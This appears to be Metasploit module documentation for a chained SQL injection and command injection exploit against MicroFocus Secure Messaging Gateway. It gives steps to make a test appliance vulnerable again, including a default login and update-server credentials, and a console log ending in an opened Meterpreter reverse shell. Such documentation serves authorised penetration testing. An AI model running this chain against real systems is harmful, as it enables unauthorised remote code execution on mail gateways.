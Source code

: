 ## Vulnerable Application

This module exploits a SQL injection and command injection vulnerability in MicroFocus Secure Messaging
Gateway. An unauthenticated user can execute a terminal command under the context of the web user.

One of the user supplied parameters of API endpoint is used by the application without input validation
and/or parameter binding, which leads to SQL injection vulnerability. Successfully exploiting this
vulnerability gives a ability to add new user onto system. manage_domains_dkim_keygen_request.php
endpoint is responsible for executing an operation system command. It's not possible to access this
endpoint without having a valid session.

Combining these vulnerabilities gives the opportunity execute operation system commands under the
context of the web user.
        
### Installation Steps

Complete the following trial submission form. You will be able to [download the product as a OVA or ISO file](https://www.microfocus.com/products/secure-gateway/trial/).
Installation instructions can be [found here](https://www.microfocus.com/documentation/secure-messaging-gateway/GWAVA%207.0/secure-gateway.pdf).

Please note that newer trial appliances by default are no longer vulnerable to the attacks used by
this module, but for testing purposes there is a way to make it vulnerable again.

First, go ahead and install the ISO. The appliance is based on Debian (for example, version 7 is
running a modified version of Ubuntu 16.04), so installation should be very similar to that.

After you log into the system as "gwava:gwava" (which is the default credential), you should see
this on your screen:

```
####################################

Please run the following command:

sudo /opt/gwavapreinstall.sh

####################################
```

The gwavapreinstall.sh script is what you need to modify. To do this, open it with your favorite text
editor with sudo like this:

```
$ sudo nano -w /opt/gwavapreinstall.sh
```

The bash script uses svn to download the latest software from the official site, but we can go back to
a specific commit to test the vulnerability again. Go ahead and find this line in the file:

```
sudo svn co --username gwavaupdate --password gwavam8 --non-interactive https://gwava7updates.gwava.com/update/gwava7/release $GWAVA_DIR
```

And modify to (the difference is the ```release@444```):

```
sudo svn co --username gwavaupdate --password gwavam8 --non-interactive https://gwava7updates.gwava.com/update/gwava7/release@444 $GWAVA_DIR
```

Make sure you save it, and then now run the script:

```
$ sudo /opt/gwavapreinstall.sh
```

After running the script, make sure to browse to https://[IP] to complete the installation. And then
after that, you are ready to test the module.

Note that the module may not work at the very first try, but the second time should work.

## Verification Steps

A successful check of the exploit will look like this:

1. Start `msfconsole`
2. `use exploit/linux/http/microfocus_secure_messaging_gateway `
3. Set `RHOST`
4. Set `LHOST`
5. Run `check`
6. **Verify** that you are seeing `The target is vulnerable`
7. Run `exploit`
8. **Verify** that you are seeing `Creating an user with appropriate privileges` in console.
9. **Verify** that you are seeing `User successfully created. Username : rmcynlbredxqh` in console.
10. **Verify** that you are seeing `Authenticating with created user` in console.
11. **Verify** that you are seeing `Successfully authenticated` in console.
12. **Verify** that you are seeing `Creating a domain with a malformed DKIM data` in console.
13. **Verify** that you are seeing `Payload is successfully implanted` in console.
14. **Verify** that you are seeing `Triggering an implanted payload` in console.
15. **Verify** that you are getting meterpreter session.

## Scenarios

```
msf5 > use exploit/linux/http/microfocus_secure_messaging_gateway 
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > set RHOSTS 12.0.0.25
RHOSTS => 12.0.0.25
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Creating an user with appropriate privileges
[+] User successfully created. Username : rmcynlbredxqh
[*] Authenticating with created user
[+] Successfully authenticated
[*] Creating a domain record with a malformed DKIM data
[+] Payload is successfully implanted
[*] Triggering an implanted payload
[*] Sending stage (37775 bytes) to 12.0.0.25
[*] Meterpreter session 10 opened (12.0.0.1:4444 -> 12.0.0.25:44332) at 2018-06-25 20:26:54 +0100
[*] Cleaning up...

meterpreter > pwd
/opt/gwava/gwavaman/http/admin/contents/ou
meterpreter >
```
